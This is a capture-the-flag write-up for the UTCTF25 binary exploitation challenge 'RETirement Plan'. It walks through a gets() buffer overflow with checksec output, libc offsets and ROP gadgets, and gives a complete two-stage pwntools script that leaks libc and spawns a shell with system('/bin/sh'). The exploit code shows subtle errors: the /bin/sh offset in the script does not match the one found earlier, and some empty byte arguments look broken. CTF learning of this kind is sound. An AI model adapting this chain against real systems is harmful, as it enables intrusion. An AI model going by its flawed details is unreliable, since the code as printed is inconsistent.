

# WriteUp for **RETirement Plan** @ UTCTF25  

## Category: Binary Exploitation / Pwn  

### Challenge Overview  
Upon opening the challenge, we are given:  

- A **binary** file  
- A **libc** file  

---

## Binary Analysis  

### Checking Security Protections  
We analyze the binary with `checksec` and get the following output:  

```
Arch:       amd64-64-little  
RELRO:      Partial RELRO  
Stack:      No canary found  
NX:         NX unknown - GNU_STACK missing  
PIE:        No PIE (0x3fe000)  
Stack:      Executable  
RWX:        Has RWX segments  
Stripped:   No  
```

### Observations  
- **No stack canary** → Buffer overflow is possible  
- **NX is not enabled** → Code execution on the stack is possible  

---

## Reverse Engineering the Binary  

Let's decompile the binary using **Ghidra**:

  

The binary performs the following operations:  

1. **Outputs text** using `puts()`  
2. **Reads user input** into a **48-byte buffer** using `gets()` (**vulnerable to buffer overflow**)  
3. **Transforms each character** based on the following logic:  
   - If **lowercase** → `char - 0x25`  
   - If **uppercase** → `char - 0x65`  

Since the program does **not** directly reveal the flag, we must execute `system("/bin/sh")` to gain a shell.

---

## Finding Offsets in libc  

Since **ASLR is enabled**, addresses are randomized, but **offsets remain constant**.  
We need the addresses of `system()` and `"/bin/sh"`.

### Extracting Offsets  

#### `system()` Offset:  
By running **libc in GDB**:  
```
gdb-peda$ p system  
$1 = {<text variable, no debug info>} 0x453a0 <system>
```
**Offset of `system`:** `0x453a0`

#### `"/bin/sh"` Offset:  
```
strings -t x libc-2.23.so | grep /bin/sh
```
Output:  
```
18ce57 /bin/sh
```
**Offset of `/bin/sh`:** `0x18ce57`

#### `puts()` Offset:  
```
gdb-peda$ p puts  
$1 = {<text variable, no debug info>} 0x6f6a0 <puts>
```
**Offset of `puts`:** `0x6f6a0`

### Plan of Attack  

1. **Leak the libc base address** using `puts()`.
2. **Call main again** using main's addr.
3. **Calculate system and "/bin/sh" addresses** using known offsets.  
4. **Exploit buffer overflow** to call `system("/bin/sh")`.

---

## Finding Main

So now we need to get the main() address    
If we use cylic to crash the program and check it using gdb we can see that the main address is 0x40070d - 247 = **0x400616**


---

## Finding ROP Gadgets  

Using **ROPgadget** to find useful instructions:  

```
ROPgadget --binary ./shellcode | grep "pop rdi"
```

```
0x0000000000400793 : pop rdi ; ret
0x00000000004004a9 : ret
```

### Explanation  
- **pop rdi; ret** → Allows control over the `rdi` register (1st argument to functions).  
- **ret** → Used for stack alignment.  

To call `system("/bin/sh")`, we need:  
1. `pop rdi; ret` → Load `/bin/sh` into `rdi`  
2. `ret` (optional for alignment)  
3. Call `system()`  

---

## Exploit Script  

```python
from pwn import *

# Load binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address to prevent crashes (mov eax, 0x0)
add = 0x400600  

# Receive initial output
p.recv()

# === Stage 1: Leak puts() address ===
payload = b'A' * 47        # Padding (47 A's)  
payload += b'F'            # Marker for reference  
payload += p64(add)        # Overwrite return address  
payload += 16 * b'b'       # Extra padding  
payload += p64(0x400793)   # pop rdi; ret  
payload += p64(elf.got.puts)  # Address of puts() in GOT  
payload += p64(elf.plt.puts)  # Call puts()  
payload += p64(0x400616)   # Return to main()  

p.sendline(payload)

# Parse leaked puts() address
p.recvuntil(b'F')
output = p.recvuntil(b'').strip()
puts_addr = u64(output.ljust(8, b""))

# Calculate addresses
libc_base = puts_addr - 0x6f6a0  
system_addr = libc_base + 0x453a0  
bin_sh = libc_base + 0x18ce67  

# === Stage 2: Exploit buffer overflow to get shell ===
payload2 = b'C' * 48        # Padding  
payload2 += p64(add)        # Overwrite return address  
payload2 += 16 * b'b'       # Extra padding  
payload2 += p64(0x4004a9)   # ret (stack alignment)  
payload2 += p64(0x400793)   # pop rdi; ret  
payload2 += p64(bin_sh)     # Address of "/bin/sh"  
payload2 += p64(system_addr)  # Call system("/bin/sh")  

p.sendline(payload2)

# Get interactive shell
p.interactive()
```

---

## Exploit Execution  

1. **First Payload:**  
   - Overwrites the return address.  
   - Calls `puts()` to leak its address from **GOT**.  
   - Returns to `main()` for second-stage execution.  

2. **Second Payload:**  
   - Calculates **libc base address**.  
   - Computes `system()` and `/bin/sh` addresses.  
   - Calls `system("/bin/sh")` to spawn a shell.  

### Successfully Getting the Flag  
  

---

## Summary  

- **Vulnerability:** Buffer Overflow  
- **Goal:** Call `system("/bin/sh")`  
- **Method:**  
  1. Leak **puts()** address from GOT.  
  2. Compute **libc base address**.  
  3. Find **system()** and `"/bin/sh"` offsets.  
  4. Construct **ROP chain** to call `system("/bin/sh")`.  
  5. **Exploit buffer overflow** to execute the attack.  